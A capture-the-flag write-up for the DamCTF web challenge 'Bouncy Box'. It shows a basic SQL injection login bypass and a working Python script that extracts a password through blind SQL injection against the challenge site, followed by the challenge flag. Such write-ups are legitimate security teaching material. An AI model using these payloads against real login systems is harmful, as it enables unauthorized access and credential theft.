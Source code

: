 # Bouncy Box

Here is my writeup for the first web challenge of DamCTF

The challenge url is https://bouncy-box.chals.damctf.xyz

## First look

First we can see a little game, when we lose it asks us to login.

![login_page](images/login_page.png)

There is a lot of way to bypass authentication but most of time it's SQL Injection, so we can supposed that it's an SQL Injection challenge.

## First Injection

I tried to inject ``' or 1=1 -- -`` (the most basic SQLi) and it worked!

![connected](images/connected.png)

We can see a button to get the flag but it's not that easy...

We have a second login but the injection is impossible, maybe the query is prepared. So how to bypass this authent...

We can easily do a blind SQL injection on the first login form to retrieve the password. Here is my code:
```py
import requests
import string

chars = string.printable[:94]

result = ""

for i in range(1, 100):
    found = False
    for char in chars:
        data = {'username_input':f"boxy_mcbounce' AND ascii(substring(password, {i}, 1)) = {ord(char)}-- -", "password_input":"random"}
        r = requests.post("https://bouncy-box.chals.damctf.xyz/login", data=data)
        if "boxy_mcbounce's Stats" in r.text:
            result += char
            print(f"\r[\x1b[92m+\x1b[0m] Found: {result}", end="")
            found = True
            break
    if not found:
        print(f"[\x1b[92m+\x1b[0m] Password found: {result}")
        break
```

We just have to wait for the password printed and put it in the second form.

Flag: ``dam{b0uNCE_B0UNcE_b0uncE_B0uNCY_B0unce_b0Unce_b0Unc3}``